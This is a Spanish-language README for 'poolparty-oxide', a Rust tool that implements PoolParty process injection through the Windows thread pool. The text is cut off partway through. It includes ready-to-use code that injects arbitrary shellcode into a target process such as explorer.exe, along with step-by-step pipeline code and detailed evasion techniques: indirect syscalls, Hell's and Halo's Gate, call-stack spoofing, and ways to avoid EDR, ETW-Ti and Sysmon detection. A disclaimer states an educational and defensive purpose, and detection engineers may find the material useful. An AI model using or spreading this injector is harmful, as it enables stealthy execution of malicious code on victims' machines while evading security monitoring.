


[English](README.md) | [Español](README_ES.md)

# poolparty-oxide: Inyección en Windows Thread Pool en Rust Puro

`poolparty-oxide` es una implementación en Rust de la técnica de inyección de procesos **PoolParty**, enfocada en abusar de la arquitectura interna del Thread Pool (pool de hilos de trabajo) de Windows sin depender de SDKs externos (`windows-rs`, `winapi`). Descubierta y documentada originalmente por SafeBreach Labs (Alon Leviev, 2023), esta familia de técnicas plantea una alternativa a los métodos clásicos de inyección: en lugar de crear nuevos hilos remotos sospechosos o secuestrar el contexto de hilos activos, aprovecha los hilos de trabajo (*worker threads*) legítimos que los procesos ya tienen en ejecución dentro del Thread Pool.

En concreto, este proyecto implementa la **variante de encolamiento de tareas en puertos de finalización de E/S (*I/O Completion Ports* - IOCP) mediante `NtSetIoCompletion` a través de Worker Factories**. El inyector inspecciona los objetos del kernel, duplica el puerto IOCP del proceso objetivo, escribe en su memoria el payload y la estructura indocumentada `TP_DIRECT`, y encola un paquete de finalización con `KeyContext` apuntando a esa estructura. Al recibir el paquete, el hilo de trabajo del thread pool remoto (`ntdll!TppWorkerThread`) despacha y ejecuta directamente nuestro callback.

Todo el flujo de bajo nivel funciona sin recurrir a la API estándar de Win32. Se apoya en las primitivas de [`zada-xor`](https://github.com/lcalzada-xor/zada-xor), utilizando extracción dinámica de SSN con Hell's Gate y Halo's Gate, llamadas indirectas al sistema (*indirect syscalls*), falsificación de pila (*Call Stack Spoofing*) con dos gadgets de retorno, y escritura en memoria mediante el ciclo `PAGE_READWRITE` → `PAGE_EXECUTE_READ` (evitando memoria RWX).

> [!NOTE]
> **Nota del Autor (`lcalzada-xor`):**  
> *Esta es mi versión de la técnica PoolParty en Rust. Toda la parte de primitivas nativas de NT, indirect syscalls y evasión viene de mi librería [`zada-xor`](https://github.com/lcalzada-xor/zada-xor), que estoy desarrollando en GitHub.*  
> *Durante el desarrollo, pelearme con estructuras indocumentadas como `TP_DIRECT` y averiguar los parámetros exactos de `NtSetIoCompletion` me dio bastantes dolores de cabeza (sobre todo lograr que el hilo worker aceptara el paquete y ejecutara el código sin tirar el proceso abajo). Dejo documentadas aquí todas las notas, offsets y detalles para que se entienda bien cómo funciona el Thread Pool por dentro.*

<p align="center">
  
</p>

---

## Aviso Legal y Propósito Educativo

> [!IMPORTANT]
> **Este proyecto tiene fines estrictamente educativos, de investigación y para seguridad defensiva.**
>
> * **Uso autorizado:** El código y los conceptos explicados aquí están pensados únicamente para pruebas en entornos controlados, laboratorios locales y sistemas donde se cuente con permiso explícito por escrito de los propietarios.
> * **Enfoque defensivo:** El objetivo es ayudar a analistas de seguridad, desarrolladores de EDR/AV e ingenieros de detección a entender cómo operan estas técnicas a bajo nivel para diseñar mejores reglas y telemetría de kernel (ETW-Ti).
> * **Uso indebido prohibido:** No me hago responsable del mal uso, daño o actividad ilícita que terceros puedan realizar con este material. Usar estas técnicas contra sistemas sin autorización es ilegal y responsabilidad exclusiva de quien lo haga.

---

## Tabla de Contenidos

- [Aviso Legal y Propósito Educativo](#aviso-legal-y-propósito-educativo)
- [Tabla de Contenidos](#tabla-de-contenidos)
- [¿Cómo Usarlo? (Guía Rápida)](#cómo-usarlo-guía-rápida)
  - [1. Configuración en Cargo.toml](#1-configuración-en-cargotoml)
  - [2. Uso en el Código](#2-uso-en-el-código)
  - [3. Supresión de Mensajes de Depuración](#3-supresión-de-mensajes-de-depuración)
- [Arquitectura y Visión General del Vector de Inyección PoolParty](#arquitectura-y-visión-general-del-vector-de-inyección-poolparty)
  - [Por Qué Inyección en Thread Pool (vs. Hilos Remotos Tradicionales)](#por-qué-inyección-en-thread-pool-vs-hilos-remotos-tradicionales)
  - [Diagrama de Secuencia de Inyección Extremo a Extremo](#diagrama-de-secuencia-de-inyección-extremo-a-extremo)
- [Estructura del Proyecto y Configuración del Manifiesto](#estructura-del-proyecto-y-configuración-del-manifiesto)
  - [Decisiones de Arquitectura en el Manifiesto](#decisiones-de-arquitectura-en-el-manifiesto)
- [Análisis Profundo: Pipeline de Inyección y Subsistemas de Zada-Xor](#análisis-profundo-pipeline-de-inyección-y-subsistemas-de-zada-xor)
  - [1. Adquisición del Proceso: NtOpenProcess y Derechos de Acceso](#1-adquisición-del-proceso-ntopenprocess-y-derechos-de-acceso)
  - [2. Introspección de Objetos del Kernel: NtQueryObject y Descubrimiento del Tipo IoCompletion](#2-introspección-de-objetos-del-kernel-ntqueryobject-y-descubrimiento-del-tipo-iocompletion)
  - [3. Enumeración de Handles: NtQueryInformationProcess (Clase 51)](#3-enumeración-de-handles-ntqueryinformationprocess-clase-51)
  - [4. Duplicación de Handles: NtDuplicateObject](#4-duplicación-de-handles-ntduplicateobject)
  - [5. Preparación Sigilosa de Memoria: write_process_mem_rw_rx (Ciclo de Vida RW -> RX)](#5-preparación-sigilosa-de-memoria-write_process_mem_rw_rx-ciclo-de-vida-rw---rx)
  - [6. La Estructura de Tarea Indocumentada TP_DIRECT y Distribución de Memoria](#6-la-estructura-de-tarea-indocumentada-tp_direct-y-distribución-de-memoria)
  - [7. Despacho de la Tarea: NtSetIoCompletion y la Mecánica de KeyContext](#7-despacho-de-la-tarea-ntsetiocompletion-y-la-mecánica-de-keycontext)
  - [8. Limpieza y Ciclo de Vida de Handles: NtClose](#8-limpieza-y-ciclo-de-vida-de-handles-ntclose)
- [El Banco de Pruebas de Integración (examples/example.rs)](#el-banco-de-pruebas-de-integración-examplesexamplers)
  - [Etapa 1: Adquisición del Objetivo y el Algoritmo unique_hash](#etapa-1-adquisición-del-objetivo-y-el-algoritmo-unique_hash)
  - [Etapa 2: Descubrimiento de Procesos del Sistema vía NtQuerySystemInformation](#etapa-2-descubrimiento-de-procesos-del-sistema-vía-ntquerysysteminformation)
  - [Etapa 3: Apertura del Proceso y Ejecución de PoolParty](#etapa-3-apertura-del-proceso-y-ejecución-de-poolparty)
- [Guía de Compilación Cruzada y Ejecución](#guía-de-compilación-cruzada-y-ejecución)
  - [1. Requisitos Previos y Configuración de la Cadena de Herramientas](#1-requisitos-previos-y-configuración-de-la-cadena-de-herramientas)
  - [2. Comandos de Compilación](#2-comandos-de-compilación)
  - [3. Ejecución y Pruebas en Laboratorio](#3-ejecución-y-pruebas-en-laboratorio)
- [Mapeo MITRE ATT&CK](#mapeo-mitre-attck)
- [Proyectos Relacionados](#proyectos-relacionados)
- [Recursos, Referencias y Enlaces de Interés](#recursos-referencias-y-enlaces-de-interés)

---

## ¿Cómo Usarlo? (Guía Rápida)

> [!TIP]
> **Recomendación:** Este repositorio (`poolparty-oxide`) ha sido creado exclusivamente con fines didácticos para ilustrar, aislar y explicar el funcionamiento paso a paso de la inyección en Thread Pool mediante IOCP. Si deseas utilizar esta técnica o cualquier otra primitiva en tus herramientas o proyectos, **se recomienda importar directamente [`zada-xor`](https://github.com/lcalzada-xor/zada-xor)**, ya que es el repositorio donde mantengo todo el código y las técnicas de evasión centralizadas en su versión más actualizada.

### 1. Configuración en Cargo.toml

Para integrar la funcionalidad recomendada directamente desde `zada-xor` (o usar este repo como referencia):

```toml
[dependencies]
# Recomendado: Importar directamente zada-xor (contiene la versión más reciente de PoolParty y de todo el motor NT)
zada-xor = { git = "https://github.com/lcalzada-xor/zada-xor", branch = "main" }

# Alternativa (este repositorio, concebido como PoC didáctica):
# poolparty-oxide = { git = "https://github.com/lcalzada-xor/poolparty-oxide" }
```

### 2. Uso en el Código

Si importas `zada-xor`, la función de inyección está expuesta en su módulo de técnicas de ejecución:

```rust
// Invocación recomendada directamente desde zada-xor:
use zada_xor::techniques::evasion::execution::execute_poolparty_shellcode::execute_poolparty_shellcode;

// (Si prefieres usar el wrapper de este repositorio):
// use poolparty_oxide::execute_poolparty_shellcode;

fn main() {
    // 1. PID del proceso objetivo (debe tener un Thread Pool activo, ej. explorer.exe)
    let target_pid: u32 = 1234;

    // 2. Shellcode / payload a ejecutar
    let shellcode: &[u8] = &[
        // ... bytes de tu payload ...
    ];

    // 3. Ejecución de la inyección PoolParty vía IOCP
    match execute_poolparty_shellcode(target_pid, shellcode) {
        Ok(_) => println!("[+] Inyección en el Thread Pool completada con éxito."),
        Err(e) => eprintln!("[!] Error al ejecutar PoolParty: {}", e),
    }
}
```

### 3. Supresión de Mensajes de Depuración

Por defecto en depuración (`debug`), la biblioteca muestra trazas informativas por consola (`[+] Handle obtenido...`, `[+] Index de IoCompletion...`). Para compilaciones limpias de producción, compila con el modificador `--release`:

```bash
cargo build --release --target x86_64-pc-windows-gnu
```

> [!NOTE]
> **Nota del Autor (`lcalzada-xor`):**  
> *Este repo lo publiqué como un laboratorio aislado para explicar al detalle cómo funciona la inyección en el Thread Pool mediante `NtSetIoCompletion` y `TP_DIRECT`, sin mezclarlo con todo el resto de módulos de mi framework. Pero si vas a utilizarlo en tus proyectos o pruebas, añade directamente [`zada-xor`](https://github.com/lcalzada-xor/zada-xor) a tu `Cargo.toml`. Ahí es donde desarrollo activamente, arreglo bugs y mantengo las implementaciones de syscalls indirectas, call stack spoofing y evasión al día.*

---

## Arquitectura y Visión General del Vector de Inyección PoolParty

### Por Qué Inyección en Thread Pool (vs. Hilos Remotos Tradicionales)

Durante décadas, las técnicas de inyección de procesos en espacio de usuario (Ring 3) dependieron de un conjunto reducido y altamente supervisado de subsistemas de Windows. Las soluciones modernas de Detección y Respuesta en Endpoints (EDR) y las capas de telemetría del sistema operativo (específicamente Kernel Event Tracing for Threat Intelligence o **ETW-Ti**) monitorizan intensamente estas vías tradicionales de ejecución:

1. **Primitivas de Creación de Hilos Remotos (`CreateRemoteThread`, `NtCreateThreadEx`, `RtlCreateUserThread`):**
   - **Telemetría en el Kernel:** Disparan la rutina de notificación del kernel `PsSetCreateThreadNotifyRoutine` y emiten el evento ETW-Ti `Microsoft-Windows-Threat-Intelligence: THREAD_CREATE`.
   - **Anomalía en la Pila de Llamadas:** El hilo recién creado inicia su ciclo de vida con una dirección de entrada que apunta directamente a una página de memoria no respaldada por un archivo en disco (`MEM_PRIVATE` con atributos `PAGE_EXECUTE_READ`), constituyendo un indicador heurístico inmediato de código inyectado.
2. **Llamadas a Procedimientos Asíncronos (`QueueUserAPC`, `NtQueueApcThread`, `NtQueueApcThreadEx`):**
   - **Dependencia de Ejecución:** Requieren que un hilo existente en el proceso objetivo entre voluntariamente en un estado de espera alertable (p. ej., mediante `SleepEx`, `WaitForSingleObjectEx` o `MsgWaitForMultipleObjectsEx`), introduciendo demoras no deterministas en la ejecución.
   - **Telemetría:** Los ganchos de monitorización en espacio de usuario sobre `NtQueueApcThread` registran de inmediato la inserción forzada de rutinas APC cruzadas entre procesos.
3. **Secuestro de Contexto de Hilos (`NtSuspendThread`, `NtSetContextThread`, `NtResumeThread`):**
   - **Disrupción del Hilo:** Suspenden un hilo en ejecución y sobrescriben por la fuerza su puntero de instrucciones (`RIP`/`EIP`), provocando inestabilidad severa en el proceso anfitrión y generando eventos ETW-Ti de tipo `THREAD_SET_CONTEXT`.

```math
\begin{aligned}
\textbf{Tradicional:}\quad &\text{Proceso Inyector} \xrightarrow{\text{NtCreateThreadEx}} \text{Nuevo Hilo Remoto} \xrightarrow{\text{Callback de Kernel}} \mathbf{\text{PsSetCreateThreadNotify}} \implies [\mathbf{ALARMA:}\text{ Inicio en Memoria no Respaldada}] \\[6pt]
\textbf{PoolParty:}\quad &\text{Inyector (IOCP Duplicado)} \xrightarrow{\text{NtSetIoCompletion}} \text{Cola de Tareas (IOCP)} \xrightarrow{\text{Bucle Nativo}} \mathbf{\text{ntdll!TppWorkerThread}} \implies [\mathbf{LIMPIO:}\text{ Inicio de Worker Legítimo}]
\end{aligned}
```

En marcado contraste, **PoolParty** abusa de la infraestructura legítima del Thread Pool de Windows presente en prácticamente todos los procesos de usuario del sistema operativo:

- **Sin Creación de Hilos:** La inyección opera sin invocar primitivas de creación de hilos (`THREAD_CREATE = 0`). Los hilos de trabajo ya se encuentran en ejecución dentro del proceso objetivo.
- **Anclaje Natural de la Pila de Llamadas:** Cuando el control se transfiere al callback del payload, la pila de llamadas se origina legítimamente desde las funciones base del sistema operativo:
```math
\text{ntdll!RtlUserThreadStart} \longrightarrow \text{kernel32!BaseThreadInitThunk} \longrightarrow \text{ntdll!TppWorkerThread} \longrightarrow \text{ntdll!TppDirectExecuteCallback}
```
- **Evasión de Telemetría en el Kernel:** Al no registrarse nuevos hilos, las rutinas de notificación del núcleo (`PsSetCreateThreadNotifyRoutine`) permanecen en absoluto silencio. El paquete de ejecución es procesado de manera orgánica por el despachador de finalización de E/S de Windows.

---

### Diagrama de Secuencia de Inyección Extremo a Extremo

El ciclo de vida completo de la secuencia de inyección en `poolparty-oxide` abarca nueve etapas deterministas, coordinadas a través del proceso inyector, el Administrador de Objetos del Kernel NT (Object Manager), el espacio de direcciones virtuales del proceso objetivo y un hilo de trabajo activo del Thread Pool:



```math
\begin{aligned}
\text{Etapa 1: } &\text{Adquisición del Objetivo} &&\mathcal{P}_{\text{target}} \gets \text{NtOpenProcess}(\text{PID}, \mathbf{0x0478}) \\
\text{Etapa 2: } &\text{Resolución de Tipo} &&\mathcal{T}_{\text{IOCP}} \gets \text{NtQueryObject}(\text{ObjectTypesInformation}) \\
\text{Etapa 3: } &\text{Descubrimiento de Handle} &&\mathcal{H}_{\text{remote}} \gets \text{NtQueryInformationProcess}(\mathcal{P}_{\text{target}}, \text{Clase 51}) \\
\text{Etapa 4: } &\text{Duplicación de Handle} &&\mathcal{H}_{\text{local}} \gets \text{NtDuplicateObject}(\mathcal{P}_{\text{target}}, \mathcal{H}_{\text{remote}}, \text{CurrentProcess}) \\
\text{Etapa 5: } &\text{Alojamiento de Payload} &&\alpha_{\text{code}} \gets \text{write\_process\_mem\_rw\_rx}(\mathcal{P}_{\text{target}}, \text{payload}) \\
\text{Etapa 6: } &\text{Alojamiento de TP\_DIRECT} &&\alpha_{\text{task}} \gets \text{write\_process\_mem\_rw\_rx}(\mathcal{P}_{\text{target}}, \text{TP\_DIRECT}\{\text{callback}: \alpha_{\text{code}}\}) \\
\text{Etapa 7: } &\text{Encolado del Paquete} &&\text{NtSetIoCompletion}(\mathcal{H}_{\text{local}}, \text{KeyContext} = \alpha_{\text{task}}) \\
\text{Etapa 8: } &\text{Cierre de Recursos} &&\text{NtClose}(\mathcal{H}_{\text{local}}) \land \text{NtClose}(\mathcal{P}_{\text{target}}) \\
\text{Etapa 9: } &\text{Ejecución en el Worker} &&\text{ntdll!TppWorkerThread} \xrightarrow{\text{despacho}} \text{TppDirectExecuteCallback}(\alpha_{\text{task}}) \to \text{Payload}
\end{aligned}
```

---

## Estructura del Proyecto y Configuración del Manifiesto

El manifiesto del paquete (`Cargo.toml`) define una biblioteca independiente de Rust configurada con metadatos de compilación personalizados y una dependencia directa vía git hacia el motor nativo `zada-xor`:

```toml
[package]
name = "poolparty-oxide"
version = "1.0.0"
edition = "2021"
description = "A Rust implementation of the PoolParty process injection / thread pool technique."
license = "MIT OR Apache-2.0"

[lib]
name = "poolparty_oxide"
path = "src/execute_poolparty_shellcode.rs"

[dependencies]
zada-xor = { git = "https://github.com/lcalzada-xor/zada-xor", branch = "main" }
```

### Decisiones de Arquitectura en el Manifiesto
- **Ruta de Biblioteca Personalizada:** La biblioteca define `path = "src/execute_poolparty_shellcode.rs"` y `name = "poolparty_oxide"` directamente en la sección `[lib]`. Esto enruta de forma deliberada las importaciones externas hacia el pipeline de ejecución principal sin requerir un archivo proxy redundante `src/lib.rs`.
- **Fijación del Crates/Submódulo vía Git:** La dependencia de `zada-xor` se obtiene directamente desde la rama principal `main`. Todas las llamadas al sistema nativas de NT, el desenganche dinámico (*unhooking*), la resolución de SSNs y las rutinas de ensamblador residen de forma aislada en `zada-xor`, manteniendo una separación de responsabilidades estricta.
- **Edición Rust 2021:** Emplea modismos modernos de Rust 2021, incluyendo comprobación estricta de procedencia de punteros (*pointer provenance*), propagación estructurada de errores mediante `Result<T, String>`, y directivas de compilación condicional.

```
poolparty-oxide/
├── Cargo.toml                              # Manifiesto del crate y especificación de dependencias
├── Cargo.lock                              # Archivo de bloqueo del árbol de dependencias
├── src/
│   └── execute_poolparty_shellcode.rs     # Punto de entrada de la biblioteca y pipeline de 9 etapas
└── examples/
    └── example.rs                          # Banco de pruebas de integración exhaustivo de 14 etapas
```

---

## Análisis Profundo: Pipeline de Inyección y Subsistemas de Zada-Xor

El pipeline principal de inyección implementado en `src/execute_poolparty_shellcode.rs` coordina ocho subsistemas nativos de NT importados desde `zada-xor`. Cada subsistema resuelve un desafío específico impuesto por el modelo de seguridad del kernel de Windows y el entorno de ejecución en modo usuario:

```rust
use zada_xor::nt::kernel_objects::close::*;
use zada_xor::nt::kernel_objects::duplicate_object::*;
use zada_xor::nt::kernel_objects::query_object::*;
use zada_xor::nt::kernel_objects::set_io_completion::*;
use zada_xor::nt::process::open_process::*;
use zada_xor::nt::process::query_information_process::*;
use zada_xor::nt::types::*;
use zada_xor::techniques::evasion::memory::write_process_mem_rw_rx::*;
```

---

### 1. Adquisición del Proceso: NtOpenProcess y Derechos de Acceso

La adquisición del proceso se inicia mediante la función `open_process(remote_process_pid, desired_access)`. Internamente, esta función delega en una llamada indirecta al sistema sobre `NtOpenProcess` (hash de API `0xaddc1c2e`).

```rust
let remote_process_handle = match open_process(
    remote_process_pid,
    DESIRED_ACCESS::PROCESS_VM_READ
        | DESIRED_ACCESS::PROCESS_VM_WRITE
        | DESIRED_ACCESS::PROCESS_QUERY_INFORMATION
        | DESIRED_ACCESS::PROCESS_VM_OPERATION
        | DESIRED_ACCESS::PROCESS_DUP_HANDLE,
) {
    Ok(handl) => handl,
    Err(e) => return Err(format!("[!] Error open_process: {}", e)),
};
```

#### Composición de la Máscara de Acceso y Justificación Matemática
En lugar de solicitar privilegios genéricos o excesivos como `PROCESS_ALL_ACCESS` (`0x1FFFFF`), los cuales generan alertas automáticas e inmediatas en herramientas de monitorización y telemetría (p. ej., Sysmon Event ID 10: *Process Access*), `poolparty-oxide` calcula una máscara compuesta estrictamente acotada a las operaciones necesarias:

```math
\begin{aligned}
\text{Máscara} &= \text{PROCESS\_VM\_READ} \,(0x0010) \\
&\quad \mid \text{PROCESS\_VM\_WRITE} \,(0x0020) \\
&\quad \mid \text{PROCESS\_QUERY\_INFORMATION} \,(0x0400) \\
&\quad \mid \text{PROCESS\_VM\_OPERATION} \,(0x0008) \\
&\quad \mid \text{PROCESS\_DUP\_HANDLE} \,(0x0040) \\
&= 0x0010 \mid 0x0020 \mid 0x0400 \mid 0x0008 \mid 0x0040 = \mathbf{0x0478}
\end{aligned}
```

| Flag de Acceso | Valor Numérico | Requerimiento Funcional en el Pipeline |
|:---|:---:|:---|
| `PROCESS_VM_READ` | `0x0010` | Lecturas de comprobación e inspección de límites de memoria. |
| `PROCESS_VM_WRITE` | `0x0020` | Escritura de los bytes del payload y la estructura `TP_DIRECT` vía `NtWriteVirtualMemory`. |
| `PROCESS_QUERY_INFORMATION` | `0x0400` | Consulta de la tabla de descriptores remota vía `NtQueryInformationProcess`. |
| `PROCESS_VM_OPERATION` | `0x0008` | Asignación de memoria (`NtAllocateVirtualMemory`) y cambio de protecciones (`NtProtectVirtualMemory`). |
| `PROCESS_DUP_HANDLE` | `0x0040` | Duplicación del handle IOCP remoto hacia la tabla del inyector vía `NtDuplicateObject`. |

#### Estructuras de Datos: `CLIENT_ID` y `OBJECT_ATTRIBUTES`
La llamada al sistema en el kernel exige dos estructuras con punteros válidos:

```rust
#[repr(C)]
pub struct CLIENT_ID {
    pub unique_process: HANDLE, // PID objetivo moldeado como HANDLE
    pub unique_thread: HANDLE,  // NULL (0) para acceso a nivel de proceso
}

#[repr(C)]
pub struct OBJECT_ATTRIBUTES {
    pub length: u32,
    pub root_directory: HANDLE,
    pub object_name: *mut c_void,
    pub attributes: u32,
    pub security_descriptor: *mut c_void,
    pub security_quality_of_service: *mut c_void,
}
```

> [!NOTE]
> **Nota del Autor (`lcalzada-xor`):**  
> *En `open_process.rs` dejé el siguiente comentario: `//necesitamos esta estructura, ya que si no esta crashearia al llamar aNtOpenProcess`. A diferencia de la API estándar de Win32 `OpenProcess`, que inicializa los parámetros entre bambalinas de forma automática, la syscall nativa `NtOpenProcess` desreferencia de forma directa el puntero a `OBJECT_ATTRIBUTES` en el espacio de memoria del kernel. Si se suministra un puntero nulo o no se inicializa rigurosamente `length = size_of::<OBJECT_ATTRIBUTES>() as u32` (48 bytes en x64, 24 bytes en x86), el núcleo desencadena una violación de acceso inmediata o devuelve el estado `STATUS_DATATYPE_MISALIGNMENT`. La implementación de `OBJECT_ATTRIBUTES::default()` resultó estrictamente obligatoria para impedir el cuelgue del kernel.*

---

### 2. Introspección de Objetos del Kernel: NtQueryObject y Descubrimiento del Tipo IoCompletion

En el Administrador de Objetos de Windows NT (Object Manager), todas las instancias de objetos del kernel (archivos, secciones, mutantes, eventos, puertos de finalización IoCompletion) pertenecen a un tipo `OBJECT_TYPE`. Cada tipo posee un índice numérico denominado `TypeIndex`. No obstante, **los valores de `TypeIndex` no son constantes estáticas**: varían drásticamente entre versiones de Windows, niveles de parches, números de compilación y secuencias de arranque de controladores.

Para identificar un puerto de finalización de E/S en la tabla de descriptores remota sin hardcodear números mágicos frágiles, `poolparty-oxide` inspecciona dinámicamente el Object Manager mediante `query_kernel_object_index("IoCompletion")`, envoltorio de la syscall `NtQueryObject` (hash de API `0xfc2a599c`).

```rust
let iocp_idx: usize;
match query_kernel_object_index("IoCompletion") {
    Ok(idx) => {
        #[cfg(debug_assertions)]
        println!("[+] Index de IoCompletion: {}", idx);
        iocp_idx = idx as usize;
    }
    Err(e) => return Err(format!("[!] query_kernel_object_index falló. Motivo: {}", e)),
}
```

#### Bucle de Sondeo y Redimensionamiento Dinámico de Búfer
La consulta de la clase de información `ObjectTypesInformation` (clase 3) requiere un patrón de expansión de búfer dinámico en dos fases para manejar la concurrencia del kernel:

1. **Sondeo Inicial de Tamaño (`query_object_find_struct_size`):**  
   Emite una llamada preliminar pasando un puntero nulo y tamaño 0. El kernel rechaza el búfer y devuelve `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`) o `STATUS_BUFFER_TOO_SMALL` (`0xC0000023`), completando en la variable de salida la longitud requerida (`return_length`).
2. **Bucle de Reasignación con Holgura (`query_object_size_solved`):**  
   Dado que otros procesos y controladores registran o destruyen objetos continuamente, el tamaño requerido puede incrementarse entre el sondeo y la llamada efectiva. Se ejecuta un bucle de reintento de hasta 20 iteraciones (`MAX_ATTEMPTS = 20`):
   - Si `return_length > current_size`, el búfer se expande a `return_length + 1024` bytes.
   - Si `return_length <= current_size`, el búfer duplica su capacidad (`current_size * 2`).

```rust
#[repr(C)]
pub struct OBJECT_TYPES_INFORMATION {
    pub NumberOfTypes: ULONG,
    pub TypeInformation: [OBJECT_TYPE_INFORMATION; 1],
}

#[repr(C)]
pub struct OBJECT_TYPE_INFORMATION {
    pub TypeName: UNICODE_STRING,
    pub TotalNumberOfObjects: ULONG,
    pub TotalNumberOfHandles: ULONG,
    // ... métricas de uso de pools ...
    pub TypeIndex: UCHAR, // Soportado nativamente a partir de Windows 8.1+
    // ... costos y seguridad ...
}
```

#### Recorrido de Punteros con Alineación (`align_up`)
Las entradas contiguas dentro de `OBJECT_TYPES_INFORMATION` son de longitud variable debido a que el búfer de `TypeName.Buffer` se almacena inmediatamente a continuación de la estructura. El avance hacia el siguiente descriptor requiere calcular la alineación a múltiplo de puntero:

```rust
#[inline]
fn align_up(addr: usize, align: usize) -> usize {
    (addr + align - 1) & !(align - 1)
}

let next_addr = (current_entry_ptr as usize)
    + size_of::<OBJECT_TYPE_INFORMATION>()
    + entry.TypeName.MaximumLength as usize;

current_entry_ptr = align_up(next_addr, size_of::<usize>()) as *const OBJECT_TYPE_INFORMATION;
```

Cuando `entry.TypeName` coincide con `"IoCompletion"` (mediante comparación de cadenas UTF-16 independiente de mayúsculas/minúsculas), la función extrae `entry.TypeIndex` (o recurre al índice de enumeración *i* en versiones antiguas de Windows), devolviendo el valor de `iocp_idx`.

---

### 3. Enumeración de Handles: NtQueryInformationProcess (Clase 51)

Habiendo obtenido el descriptor del proceso objetivo y resuelto el índice `iocp_idx`, el motor extrae una instantánea de la tabla de descriptores remota invocando `return_first_handle_maching_kernel_object_idx`:

```rust
let handle_entry = match return_first_handle_maching_kernel_object_idx(remote_process_handle, iocp_idx) {
    Ok(entry) => entry,
    Err(e) => return Err(format!("[!] Fallo en return_first_handle_maching_kernel_object_idx: {}", e)),
};
```

#### Mecánica de la Syscall Nativa
Invoca `NtQueryInformationProcess` (hash de API `0x6fa0c1f4`) especificando la clase de información `ProcessInformationClass::ProcessHandleInformation = 51`:

```rust
#[repr(C)]
pub struct PROCESS_HANDLE_TABLE_ENTRY_INFO {
    pub HandleValue: HANDLE,
    pub HandleCount: usize,
    pub PointerCount: usize,
    pub GrantedAccess: u32,
    pub ObjectTypeIndex: u32,
    pub HandleAttributes: u32,
    pub Reserved: u32,
}

#[repr(C)]
pub struct PROCESS_HANDLE_SNAPSHOT_INFORMATION {
    pub NumberOfHandles: usize,
    pub Reserved: usize,
    pub Handles: [PROCESS_HANDLE_TABLE_ENTRY_INFO; 1],
}
```

#### Margen de Seguridad (*Slack Padding*) ante Variación de Descriptores
Dado que los procesos activos crean y destruyen descriptores a un ritmo constante (*handle churn*), las instantáneas de la tabla de handles sufren condiciones de carrera. Si el kernel responde con `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`), `query_information_process` recalcula la longitud requerida y añade un margen de seguridad de 16 entradas:

```math
\text{TamañoBúfer} = \text{LongitudRequerida} + (\text{sizeof}(\text{PROCESS\_HANDLE\_TABLE\_ENTRY\_INFO}) \times 16)
```

Este margen de holgura impide bucles continuos de fallo si el proceso objetivo abre descriptores adicionales entre la consulta del tamaño y la llamada efectiva. El motor recorre `handle_info.Handles[0..NumberOfHandles]` y devuelve la primera entrada donde `entry.ObjectTypeIndex == iocp_idx as u32`.

---

### 4. Duplicación de Handles: NtDuplicateObject

El valor numérico del descriptor descubierto en el proceso anfitrión (`handle_entry.HandleValue`) es un token privado que indexa exclusivamente la tabla de descriptores de ese proceso. Intentar operar con dicho valor desde el proceso inyector devolverá de inmediato `STATUS_INVALID_HANDLE` (`0xC0000008`).

Para interactuar legítimamente con el puerto de finalización, el inyector clona dicho descriptor hacia su propia tabla mediante `NtDuplicateObject` (hash de API `0x8f9a8420`):

```rust
